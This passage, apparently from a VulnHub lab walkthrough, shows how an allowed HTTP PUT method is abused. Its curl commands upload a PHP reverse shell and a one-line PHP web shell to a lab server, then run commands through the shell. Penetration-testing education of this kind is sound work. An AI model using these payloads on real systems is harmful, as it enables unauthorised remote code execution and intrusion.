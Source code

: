 ### Uploading via PUT Method

There are a few different ways we can utilize the PUT method allowed on the web server to upload files to the target system.

We can use curl to upload a PHP reverse shell to the /test directory on the web server. We utilized the shell found on Kali in **/usr/share/webshells/php/php-reverse-shell.php** and adjust the IP and port variables within it.

```
curl --upload-file php-reverse-shell.php -v --url http://192.168.56.106/test/shell.php -0 --http1.0
```

The shell can also be downloaded from here: [PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

![Uploading via PUT](/assets/images/vh_sickos/vh_sickos_put_upload.jpg)

We can also get a very simple PHP command execution on the server using this curl command to write to a cmd.php file.
```
curl -X PUT -d '<?php system($_GET["cmd"]);' http://192.168.56.106/test/cmd.php
```

Execute code on the server by specifying the cmd parameter for this new cmd.php script.
```
curl "http://192.168.56.106/test/cmd.php?cmd=ls%20-lah"
```

**Note** - Nmap also has a [http-put.nse](https://nmap.org/nsedoc/scripts/http-put.html) script that allows you to easily upload files to a specified system.
> " Uploads a local file to a remote web server using the HTTP PUT method. You must specify the filename and URL path with NSE arguments."
